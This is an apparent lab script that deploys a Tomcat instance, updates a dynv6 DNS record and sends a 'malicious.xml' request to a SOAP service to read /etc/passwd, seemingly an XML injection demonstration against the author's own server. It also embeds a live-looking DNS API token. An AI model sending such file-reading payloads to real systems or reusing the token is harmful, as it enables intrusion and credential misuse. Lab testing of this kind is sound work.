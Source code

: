```bash
  --max-run-duration=300s

# Get the external IP of the created instance
eip=$(gcloud compute instances describe "attack-4-tomcat" \
  --zone "asia-south2-a" \
  --format="get(networkInterfaces[0].accessConfigs[0].natIP)")

echo "External IP Address: $eip"

RESPONSE=$(curl -s "https://dynv6.com/api/update?zone=attack-4.dynv6.net&token=88UTUoLV_bpbh7JtQuXnfwFwa9jgsZ&ipv4=$eip")

# Log the response
echo "$(date): Updated Dynv6 for attack-4.dynv6.net. Response: $RESPONSE. IP: $eip"

# Install Netcat (openbsd version recommended)
echo "Installing Netcat (openbsd)..."
sudo apt-get update
sudo apt-get install -y netcat-openbsd

# Verify Netcat installation
if ! command -v nc &> /dev/null; then
    echo "Netcat installation failed. Exiting."
    exit 1
fi

echo "Netcat installed successfully."

# Wait until port 80 is available
echo "Waiting for port 80 to be live..."
while ! nc -zv $eip 80 2>/dev/null; do
  echo "Port 80 not live yet. Retrying in 5 seconds..."
  sleep 5
done

echo "Port 80 is live! Proceeding with tests."

# Testing with Hello World
echo "Testing with Hello World..."
# curl -X POST -H "Content-Type: application/xml" --data @simple.xml http://$eip/SOAPService
curl -X POST -H "Content-Type: application/xml" --data @simple.xml https://attack-4.dmj.one/SOAPService
echo ""

# Testing with malicious payload
echo "Fetching contents of /etc/passwd file..."
# curl -X POST -H "Content-Type: application/xml" --data @malicious.xml http://$eip/SOAPService
curl -X POST -H "Content-Type: application/xml" --data @malicious.xml https://attack-4.dmj.one/SOAPService
```

---
